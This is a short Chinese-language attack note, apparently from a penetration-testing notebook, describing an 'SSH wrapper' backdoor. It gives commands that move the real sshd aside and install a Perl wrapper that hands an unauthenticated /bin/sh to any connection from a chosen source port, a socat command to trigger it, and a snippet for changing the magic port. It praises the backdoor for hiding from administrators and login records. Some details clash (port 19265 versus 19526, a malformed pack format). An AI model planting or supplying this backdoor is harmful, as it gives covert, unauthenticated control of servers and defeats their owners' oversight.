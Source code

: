 ```yaml
---
title: "SSH wrapper"
id: zhfly3485
---
```


# SSH wrapper

判断连接来源端口，将恶意端口来源访问传输内容重定向到/bin/sh中。

```
cd /usr/sbin/
mv sshd ../bin
vim sshd //编辑sshd内容为以下
#!/usr/bin/perl
exec"/bin/sh"if(getpeername(STDIN)=~/^..LF/); // \x00\x00LF是19526的大端形式
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;
service sshd restart 
```

在本机执行

```
socat STDIO TCP4:127.0.0.1:22,sourceport=19265 
```

![image](../img/b1b05f542d6eedabdc0cc93ac8dd0651.png)

可以看到我利用socat限制了本地端口19526访问server的22端口反回一个sh窗。

修改端口可以修改..LF

```
import struct
buffer = struct.pack('>I6',19526)
print repr(buffer) 
```

![image](../img/8f7edb0e96d9b0d030b39f5b538a1ddf.png)

优点：

1、在无连接后门的情况下，管理员是看不到端口和进程的，last也查不到登陆。

2、在针对边界设备出网，内网linux服务器未出网的情况下，留这个后门可以随时管理内网linux服务器，还不会留下文件和恶意网络连接记录。